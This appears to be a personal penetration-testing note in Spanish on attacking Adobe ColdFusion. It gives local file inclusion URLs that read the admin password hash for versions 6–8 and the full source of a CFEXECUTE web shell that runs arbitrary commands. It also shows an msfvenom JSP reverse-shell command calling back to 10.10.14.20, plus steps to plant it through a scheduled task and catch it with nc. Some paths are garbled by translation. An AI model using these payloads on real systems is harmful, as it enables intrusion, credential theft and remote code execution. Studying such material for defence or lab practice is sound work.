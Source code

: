 ** Attacking ColdFusion article **
https://pentest.tonyng.net/attacking-adobe-coldfusion/

Omisión de autenticación (APSB10-18 y APSB13-03)
Nuestro objetivo final cuando atacamos ColdFusion es básicamente obtener acceso de administrador a la interfaz de administración para que podamos cargar un shell (¡sí!). Debe utilizar diferentes exploits para evitar el inicio de sesión administrativo, según la versión de ColdFusion a la que se enfrente.
ColdFusion 6, 7, 8 (APSB10-18)
En las versiones sin parchear de ColdFusion 6, 7 y 8 existe una vulnerabilidad de inclusión de archivos locales (APSB10-18) que puede explotar para obtener el hash de la contraseña de administrador del archivo password.properties.
ColdFusion 6:
http: // [NOMBRE DEL HOST: PUERTO] /CFIDE/administrator/enter.cfm?locale=..\..\..\..\..\..\..\..\CFusionMX\lib\password. propiedades% en

ColdFusion 7:
http: // [NOMBRE DEL HOST: PUERTO] /CFIDE/administrator/enter.cfm?locale=..\..\..\..\..\..\..\..\CFusionMX7\lib\password. propiedades% en

ColdFusion 8:
http: // [HOSTNAME: PORT] /CFIDE/administrator/enter.cfm?locale=..\..\..\..\..\..\..\..\ColdFusion8\lib\password. propiedades% en

Todas las versiones (según este sitio [3], pero nunca lo he probado):
http: //sitio/CFIDE/administrator/enter.cfm? locale = .. \ .. \ .. \ .. \ .. \ .. \ .. \ .. \ .. \ .. \ JRun4 \ servers \ cfusion \ cfusion-ear \ cfusion-war \ WEB-INF \ cfusion \ lib \ password.properties% en
Si la inclusión del archivo local es exitosa, el hash de la contraseña (SHA1) se le vuelve a escribir en la página de inicio de sesión administrativo de esta manera (el hash se redujo):

=============================================================================

Formas de crear una reverse shell en ColdFusion:
1. Creando un panel.
	Código:
``` HTML
	
    <html>
    	<body>
     		Notes:<br><br>
    		<ul>
    			<li>Prefix DOS commands with “c:\windows\system32\cmd.exe /c <command>” or wherever cmd.exe is<br>
   				 <li>Options are, of course, the command line options you want to run
   		 		 <li>CFEXECUTE could be removed by the admin. If you have access to CFIDE/administrator you can re-enable it
    		</ul>
    		<p>
    		<cfoutput>
				<table>
				<form method=“POST” action=“cfexec.cfm”>
						<tr><td>Command:</td><td><input type=text name=”cmd” size=50
							<cfif isdefined(“form.cmd”)>value=”#form.cmd#”</cfif>><br></td></tr>
						<tr><td>Options:</td><td> <input type=text name=”opts” size=50
							<cfif isdefined(“form.opts”)>value=”#form.opts#”</cfif>><br></td></tr>
						<tr><td>Timeout:</td><td> <input type=text name=”timeout” size=4
							<cfif isdefined(“form.timeout”)>value=”#form.timeout#”
							<cfelse>value=”5″</cfif>></td></tr>
				</table>
				<input type=submit value=“Exec”>
				</form>

				<cfif isdefined(“form.cmd”)>
					<cfsavecontent variable=“myVar”>
					<cfexecute name = “#Form.cmd#” arguments = “#Form.opts#” timeout = “#Form.timeout#”> 					</cfexecute>
					</cfsavecontent>
					<pre> #myVar# </pre>
				</cfif>
   			 </cfoutput>
    	</body>
    </html>

```
![[Pasted image 20210731155035.png]]
![[Pasted image 20210731155116.png]]

2. Revershell en máquina local y se accede a ella para ejecutar el payload.
	![[Pasted image 20210731155508.png]]
	
	Preparamos el payload
	`msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.20 LPORT=443 -f raw -o s4vishell.jsp`
	
	Indicamos en la nueva task de ColdFusion la tarea a ejecutar, que haga una llamada a nuestro servidor web donde estaremos alojando el fichero "s4vishell.jsp".	

	El archivo como output será: C:\ColdFusion8\wwwroot\CFIDE\revShell.jsp, ya que sabemos que es la ruta por defecto donde ColdFusion se instala. El mapeo de estos directorios podemos verlo en la pestaña "Mappings" del panel del servicio web.
	
	Una vez la tarea es ejecutada, hará una petición a nuestro servidor y alojará el fichero en la ruta establecida.
	
	Accedemos a la ruta que ejecutará el fichero, mientras tenemos una sesión con nc abierta esperando conexión.

	
	
	

	
